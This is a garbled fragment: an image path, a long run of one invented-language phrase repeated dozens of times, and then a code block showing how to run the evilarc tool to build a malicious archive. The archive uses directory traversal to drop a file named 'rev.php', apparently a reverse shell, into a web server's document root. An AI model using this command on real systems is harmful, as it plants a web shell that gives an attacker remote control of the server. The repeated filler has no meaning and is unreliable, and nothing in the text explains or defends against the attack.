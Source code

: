 qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq qarDaSmoHbe'chughDaq vItlhutlhDaq
```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```